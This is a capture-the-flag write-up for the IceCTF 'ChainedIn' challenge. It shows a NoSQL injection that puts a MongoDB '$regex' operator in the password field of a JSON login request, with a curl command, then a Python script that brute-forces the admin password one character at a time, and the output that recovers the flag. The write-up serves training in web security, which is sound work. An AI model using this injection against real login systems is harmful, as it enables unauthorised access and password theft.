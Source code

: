 #ChainedIn WU

First we can see website use mongoDB thanks to the logo

Analyzing with firebug we can see data are sent as json.

So I try to inject admin login, password should be the flag and begins with "IceCTF{"

```
ghozt@maze:~/ice/chained$ curl -H "Content-Type: application/json" -X POST -d '{"user":"admin","pass":{"$regex":"IceCTF{"}}' http://chainedin.vuln.icec.tf/login
```

It Works ! Let's script !
<!-- more -->
```python
#!/usr/python

import requests
import json

url = "http://chainedin.vuln.icec.tf/login"

charset = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789}_"

print "[+] Getting password size ..."
for i in range(7, 100):
        payload = {'user':'admin','pass':{'$regex':'.{'+str(i)+'}'}}
        r = requests.post(url, json=payload)
        if "Invalid" in r.text:
                print "[+] Password size is "+str(i-1)
                size = i
                break

print "[+] Getting password"
password = "IceCTF{"
for i in range(7, size):
        for c in charset:
                payload = {'user':'admin','pass':{'$regex':password+c}}
                r = requests.post(url, json=payload)
                if "Administrator" in r.text:
                        password = password + c
                        print password
                        continue

```

And the result :

```
[+] Getting password size ...
[+] Password size is 55
[+] Getting password
IceCTF{I
IceCTF{I_
...
IceCTF{I_thOugHT_YOu_coulDNt_inJeCt_noSqL_tHanKs_monGo}
```

Done !

By ghozt

